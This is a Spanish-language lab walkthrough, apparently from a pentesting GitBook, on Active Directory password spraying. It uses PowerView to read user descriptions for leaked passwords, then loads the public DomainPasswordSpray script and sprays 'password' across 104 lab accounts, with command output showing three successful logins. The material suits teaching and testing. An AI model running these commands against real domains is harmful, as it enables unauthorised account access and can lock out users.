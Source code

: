 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Password Spraying

Esta tecnica consiste en ser capaces de coger una contraseña y propagarla por todos los usuarios del dominio para saber que usuarios coinciden y tienen esa contraseña asociada, pero es una tecnica muy intrusiva y en entornos reales se hay llegado a utilizar por equipos de `Red Team` y han llegado a bloquear todas las cuentas de usuarios ya que dependiendo de como este configurado tendra un numero limitado de intentos.

Primero para poder identificar alguna contraseña podremos ver las descripciones que en algunos casos puede ser muy importante para poder ver si alguno se dejo la ocntraseña puesta en la descripcion y realizar la tecnica.

```powershell
cd .\Desktop
. .\new_powerview.ps1
Get-NetUser | select name,description
```

Info:

```
name              description
----              -----------
Administrator     Built-in account for administering the computer/domain
Guest             Built-in account for guest access to the computer/domain
krbtgt            Key Distribution Center Service Account
empleado1
empleado2
Maurine Bibby
Henrie Kaleena
Ali Alix
Saree Dayna
Lonnie Betti      Replication Account
Abbi Jocelyn
Arlie Gunilla
Adorne Bridgette  Shared User
Roanna Bidget
Aubry Carolan
Ermina Hatti
Angelika Shelly   Replication Account
Barby Min
Jannel Emalia
Audre Maible
Kizzie Kacy
Andreana Shea
Emeline Shirline
Brynne Kenon
Myrtia Agatha
Ernaline Lowell
Gerri Kathi
Goldarina Nicki
Avril Cheri
Bobette Glenn
Joanie Karine
Gwenneth Gilly
Saidee Kaye
Cynthie Rori      Replication Account
Cristabel Melony
Mela Jacquetta
Jennifer Gerry    Shared User
Ginevra Michel
Arabella Norry
Colly Katey
Marsha Jordan
Britni Henrieta
Alejandrina Faye
Philis Bertha
Harriett Daron
Ardine Farra
Robena Prudence
Pearl Judye
Riva Nellie
Jobina Aleta
Fayina Hyacinth
Loretta Jerrine
Peta Adelind
Ophelie Odele
Cybil Alica
Shay Siana
Halette Martelle
Audrey Hedwiga
Betsey Stephine
Demetris Daveta
Lexy Rosaline
Ilyssa Nevsa
Denice Freda
Georgia Marie-Ann
Benny Alikee
Sandye Leodora
Germain Gavrielle Shared User
Milicent Gracie
Meg Carolee
Linn Evaleen
Mirna Annice
Diana Sharai
Deeann Amalita
Kettie Shanta
Estelle Kelli
Guenna Jessi      Shared User
Allissa Lezlie
Crissie Deena
Olga Rhoda
Anna Costanza
Corie Josie       New User ,DefaultPassword (password)
Evy Britta
Jaime Luise
Gennifer Cleo
Colly Elfie
Gill Kellie
Carmon Leoine
Farrand Inna
Donnie Lari
Millie Hanny
Sarita Alisha
Rycca Jacinta
Levin Bab
Celle Sherye      New User ,DefaultPassword (password)
Chloris Ilysa
Kelley Happy
Darsey Jasmine
Ebba Nicoline
Geneva Lorrin
Joellyn Pippa
Renelle Jacynth
Sarah Rhoda
Annice Mable      My password is Passw0rd5
Aimil Evangelia   Shared User
```

Por lo que vemos, estamos viendo a 2 usuarios bastante interesantes que dicen tener la contraseña por defecto y esta misma esta entre parentesis (`password`).

Por lo que vamos a utilizar un script publico de un repositorio de `GitHub` para realizar esta tecnica que estara en el siguiente link:

URL = [DomainPasswordSpray GitHub](https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1)

Copiaremos el script y lo pegaremos en un archivo del equipo de `empleado1` llamado `passwordspray.ps1`.

Una vez realizado todo eso en el `PowerShell` pondremos lo siguiente.

```powershell
. .\passwordspray.ps1
```

Con esto ya habremos cargado el script.

> NOTA

En tal caso de que diera un error puede ser por la linea `261` la cual habra que comentar de la siguiente forma:

```powershell
# Write-Host "${Message}: Waiting for $($Seconds/60) minutes. $($Seconds - $Count)"
```

Y lo volveremos a ejecutar.

Una vez cargado el script, tendremos que hacer lo siguiente para realizar la tecnica, pero antes tendremos que generar el archivo de usuarios para poder utilizarla para la tecnica de la siguiente forma.

```powershell
Get-NetUser | Select-Object -ExpandProperty name | Out-File C:\Users\empleado1\Desktop\users.txt
```

Esto nos habara generado un archivo en el escritorio algo asi:

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

Y ahora vamos a probar como vimos anteriormente si alguno mas de esos 2 usuarios tiene la contraseña por defecto llamada `password`:

```powershell
Invoke-DomainPasswordSpray -UserList .\users.txt -Password "password"
```

Info:

```
[*] Using .\users.txt as userlist to spray with
[*] Warning: Users will not be checked for lockout threshold.
[*] The domain password policy observation window is set to 1 minutes.
[*] Setting a 1 minute wait in between sprays.

Confirm Password Spray
Are you sure you want to perform a password spray against 104 accounts?
[Y] Yes  [N] No  [?] Ayuda (el valor predeterminado es "Y"):
[*] Password spraying has begun with  1  passwords
[*] This might take a while depending on the total number of users
[*] Now trying password password against 104 users. Current time is 8:11
[*] SUCCESS! User:ernaline.lowell Password:password
[*] SUCCESS! User:corie.josie Password:password
[*] SUCCESS! User:celle.sherye Password:password
[*] Password spraying is complete
```

Y vemos que nos esta sacando las contraseñas de dichos usuarios, pero si lo probamos muchas veces puede ser que bloqueemos las cuentas de usuarios ya que los que no estan coincidiendo tengan un limite de intentos y se bloqueen por lo que hay que tener mucho cuidado con esto.
